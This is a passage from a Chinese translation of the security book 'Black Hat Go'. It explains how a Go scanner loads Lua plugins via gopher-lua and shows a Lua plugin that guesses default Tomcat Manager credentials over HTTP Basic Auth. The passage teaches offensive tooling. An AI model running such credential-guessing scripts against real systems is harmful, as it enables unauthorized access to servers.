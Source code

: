 ```
               log.Fatalln(err)
           }
       }
   }
```

*清单 10-7：注册和调用 Lua 插件 (*[/ch-10/lua-core/cmd/scanner/main.go](https://github.com/blackhat-go/bhg/blob/master/ch-10/lua-core/cmd/scanner/main.go)*)*

正如你在 Go 示例中的 `main()` 函数那样，你将硬编码加载插件的目录位置 ❶。在你的 `main()` 函数中，你调用 `lua.NewState()` ❷ 来创建一个新的 `*lua.LState` 实例。这个 `lua.NewState()` 实例是你设置 Lua 虚拟机、注册函数和类型、执行任意 Lua 脚本所需的关键项目。然后你将该指针传递给你之前创建的 `register()` 函数 ❸，它会在状态中注册你自定义的 `http` 命名空间和函数。你接着读取插件目录的内容 ❹，并遍历目录中的每个文件 ❺。对于每个文件，你调用 `l.DoFile(f)` ❻，其中 `f` 是文件的绝对路径。此调用会在你注册了自定义类型和函数的 Lua 状态中执行该文件的内容。基本上，`DoFile()` 是 `gopher-lua` 允许你像执行独立的 Lua 脚本一样执行整个文件的方式。

#### 创建你的插件脚本

现在让我们来看看你的 Tomcat 插件脚本，它是用 Lua 编写的 (清单 10-8)。

```
usernames = {"admin", "manager", "tomcat"}
passwords = {"admin", "manager", "tomcat", "password"}

status, basic, err = http.head("10.0.1.20", 8080, "/manager/html") ❶
if err ~= "" then
    print("[!] Error: "..err)
    return
end
if status ~= 401 or not basic then
    print("[!] Error: Endpoint does not require Basic Auth. Exiting.")
    return
end
print("[+] Endpoint requires Basic Auth. Proceeding with password guessing")
for i, username in ipairs(usernames) do
    for j, password in ipairs(passwords) do
        status, basic, err = http.get("10.0.1.20", 8080, username, password, "/manager/html") ❷
        if status == 200 then
            print("[+] Found creds - "..username..":"..password)
            return
        end
    end
end
```

*清单 10-8：Tomcat 密码猜测的 Lua 插件 (*[/ch-10/lua-core/plugins/tomcat.lua](https://github.com/blackhat-go/bhg/blob/master/ch-10/lua-core/plugins/tomcat.lua)*)*

不必太担心漏洞检查的逻辑。它本质上与 Go 版本插件中你创建的逻辑相同；它在使用 HEAD 请求指纹识别应用程序后，针对 Tomcat Manager 门户执行基本的密码猜测。我们突出了两个最有趣的项目。

第一个是对`http.head("10.0.1.20", 8080, "/manager/html")`的调用❶。根据你在状态元表上的全局和字段注册，你可以调用名为`http.head()`的函数而不会收到 Lua 错误。此外，你向调用中传递了`head()`函数从`LState`实例中读取的三个参数。Lua 调用期望三个返回值，这与在退出 Go 函数之前推送到`LState`上的数字和类型相匹配。

第二项是对`http.get()`的调用❷，这与`http.head()`函数调用类似。唯一的真正区别是你传递了用户名和密码参数给`http.get()`函数。如果你回顾一下`get()`函数的 Go 实现，你会发现我们从`LState`实例中读取了这两个附加的字符串。
